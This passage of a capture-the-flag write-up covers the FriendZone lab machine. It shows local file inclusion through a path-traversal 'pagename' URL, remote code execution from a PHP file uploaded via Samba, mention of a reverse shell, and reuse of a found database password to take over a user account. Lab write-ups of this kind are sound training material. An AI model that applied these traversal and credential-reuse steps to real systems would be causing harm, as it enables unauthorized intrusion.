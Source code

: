 ```php
}

?>

```
- From the screenshot, we can see it isn't uploading to any directory. There is another possibility, we were able to put it in Development share of the samba server
- We need to enumerate to that directory and execute our reverse shell. Files was in /etc/Files, so taking a guess that Development is in /etc/Development.
- To check we are uploading a test php file called new.php, which would just print hello
```php
<?php
	echo "Hello" ;
?>
```
- url: https://administrator1.friendzone.red/dashboard.php?image_id=a.jpg&pagename=../../../etc/Development/new
![[Pasted image 20210329174908.png]]
- So we get RCE. We can upload our revshell script. (In the directory).
-  visiting https://administrator1.friendzone.red/dashboard.php?image_id=a.jpg&pagename=../../../etc/Development/revshell
![[Pasted image 20210329175221.png]]# Priv Esc
- Make it an interactive shell
 ### Enumeration
 
 - We are currently www-data
 -  We get database creds 
 ```bash
for development process this is the mysql creds for user friend

db_user=friend

db_pass=Agpyu12!0.213$

db_name=FZ
 ```
 - But mysql port isn't listening on the box right now (port 3306).
 -  We can also try login as friend using su friend and using the given password
 -  In the home directory we can read the user flag.
 -  Run `sudo -l` : `Sorry, user friend may not run sudo on FriendZone.`

### Priv Esc to root
 -  Enumerating further in /opt, we can see a reporter.py
 ```bash
friend@FriendZone:~$ cd /opt/server_admin/
friend@FriendZone:/opt/server_admin$ ls
reporter.py
friend@FriendZone:/opt/server_admin$ cat reporter.py 
#!/usr/bin/python

import os

to_address = "admin1@friendzone.com"
from_address = "admin2@friendzone.com"

print "[+] Trying to send email to %s"%to_address

#command = ''' mailsend -to admin2@friendzone.com -from admin1@friendzone.com -ssl -port 465 -auth -smtp smtp.gmail.co-sub scheduled results email +cc +bc -v -user you -pass "PAPAP"'''

#os.system(command)

 ```
